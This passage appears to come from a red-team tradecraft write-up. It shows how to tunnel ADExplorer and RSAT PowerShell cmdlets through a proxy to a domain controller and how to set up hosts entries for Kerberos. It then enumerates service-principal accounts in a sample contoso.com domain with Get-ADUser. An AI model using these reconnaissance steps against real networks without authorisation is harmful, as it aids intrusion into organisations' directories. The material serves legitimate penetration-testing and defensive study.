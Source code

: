 You can then launch a tool such `C:\Tools\SysinternalsSuite\ADExplorer64.exe` and attempt to connect to a target DC with an explicit username and password.  You should be able to see Proxifier tunnel the traffic through the proxy and the Active Directory information appear in AD Explorer.

![[Pasted image 20250717202739.png]]

### Authentication

The most common ways to authenticate to domain resources through a proxy are with plaintext credentials or Kerberos tickets.  NTLM is also possible, but I consider that deprecated as far as modern tradecraft goes.  Because Kerberos requires the use of hostnames, rather than IP addresses, you first need to add static host entries to your attacking machine, e.g:

```powershell
PS C:\Users\Attacker> Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'
```

The official Remote Server Administration Tools (RSAT) tools can be installed on any Windows machine, regardless of whether they are domain joined or not.  The PowerShell cmdlets in particular are great for enumerating and/or abusing Active Directory.  You can create a credential object with plaintext credentials via _Get-Credential_, and pass that object to the various RSAT cmdlets to perform pass the authentication material.

```powershell
PS C:\Users\Attacker> $Cred = Get-Credential CONTOSO.COM\rsteel
PS C:\Users\Attacker> Get-ADUser -Filter 'ServicePrincipalName -like "*"' -Credential $Cred -Server lon-dc-1

DistinguishedName : CN=krbtgt,CN=Users,DC=contoso,DC=com
Enabled           : False
GivenName         :
Name              : krbtgt
ObjectClass       : user
ObjectGUID        : 0de06fb0-6ebb-4619-8662-af975d28ab61
SamAccountName    : krbtgt
SID               : S-1-5-21-3926355307-1661546229-813047887-502
Surname           :
UserPrincipalName :

DistinguishedName : CN=MSSQL Service,CN=Users,DC=contoso,DC=com
Enabled           : True
GivenName         : MSSQL
Name              : MSSQL Service
ObjectClass       : user
ObjectGUID        : bcb11cba-1611-4b13-a11e-8187a7df1ce7
SamAccountName    : mssql_svc
SID               : S-1-5-21-3926355307-1661546229-813047887-3102
Surname           : Service
UserPrincipalName : mssql_svc@contoso.com
```

>  PowerView supports the same, so we can leverage its amazing functionality without the cost of executing PowerShell directly on a target.
